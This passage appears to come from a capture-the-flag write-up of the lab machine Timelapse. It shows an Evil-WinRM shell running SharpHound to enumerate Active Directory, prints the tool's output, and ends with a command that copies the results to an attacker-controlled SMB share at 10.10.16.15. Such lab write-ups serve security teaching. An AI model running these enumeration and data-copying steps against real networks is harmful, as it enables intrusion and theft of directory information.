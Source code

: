 In the user `legacyy`'s `PowerShell` history, we found the credentials for a service account named `svc_deploy`. Since we have access to `legacyy`'s shell, we can use `BloodHound` to understand more about the `Active Directory` environment.

```shell
*Evil-WinRM* PS C:\Users\legacyy\Documents> .\SharpHound.exe --CollectionMethods All --ZipFileName Ingested.zip
2024-04-01T10:14:29.2102260-07:00|INFORMATION|This version of SharpHound is compatible with the 4.3.1 Release of BloodHound
2024-04-01T10:14:29.3820866-07:00|INFORMATION|Resolved Collection Methods: Group, LocalAdmin, GPOLocalGroup, Session, LoggedOn, Trusts, ACL, Container, RDP, ObjectProps, DCOM, SPNTargets, PSRemote
2024-04-01T10:14:29.4133501-07:00|INFORMATION|Initializing SharpHound at 10:14 AM on 4/1/2024
2024-04-01T10:14:32.2152759-07:00|INFORMATION|[CommonLib LDAPUtils]Found usable Domain Controller for timelapse.htb : dc01.timelapse.htb
2024-04-01T10:14:32.5889607-07:00|INFORMATION|Flags: Group, LocalAdmin, GPOLocalGroup, Session, LoggedOn, Trusts, ACL, Container, RDP, ObjectProps, DCOM, SPNTargets, PSRemote
2024-04-01T10:14:32.8401745-07:00|INFORMATION|Beginning LDAP search for timelapse.htb
2024-04-01T10:14:32.9027647-07:00|INFORMATION|Producer has finished, closing LDAP channel
2024-04-01T10:14:32.9027647-07:00|INFORMATION|LDAP channel closed, waiting for consumers
2024-04-01T10:15:03.6368462-07:00|INFORMATION|Status: 0 objects finished (+0 0)/s -- Using 36 MB RAM
2024-04-01T10:15:17.0307271-07:00|INFORMATION|Consumers finished, closing output channel
Closing writers
2024-04-01T10:15:17.0775998-07:00|INFORMATION|Output channel closed, waiting for output task to complete
2024-04-01T10:15:17.1557232-07:00|INFORMATION|Status: 112 objects finished (+112 2.545455)/s -- Using 42 MB RAM
2024-04-01T10:15:17.1557232-07:00|INFORMATION|Enumeration finished in 00:00:44.3320547
2024-04-01T10:15:17.2495067-07:00|INFORMATION|Saving cache with stats: 71 ID to type mappings.
 71 name to SID mappings.
 0 machine sid mappings.
 2 sid to domain mappings.
 0 global catalog mappings.
2024-04-01T10:15:17.2495067-07:00|INFORMATION|SharpHound Enumeration Completed at 10:15 AM on 4/1/2024! Happy Graphing!
*Evil-WinRM* PS C:\Users\legacyy\Documents> ls


    Directory: C:\Users\legacyy\Documents


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----         4/1/2024  10:15 AM          12877 20240401101516_Ingested.zip
-a----         4/1/2024  10:15 AM          10493 NzcwYWNhMTEtODlmNS00OTNiLWEyNjAtZDQ2YjczY2QzMDk2.bin
-a----         4/1/2024   2:06 AM        1046528 SharpHound.exe


*Evil-WinRM* PS C:\Users\legacyy\Documents> copy C:\Users\legacyy\Documents\20240401101516_Ingested.zip \\10.10.16.15\tools\20240401101516_Ingested.zip
```
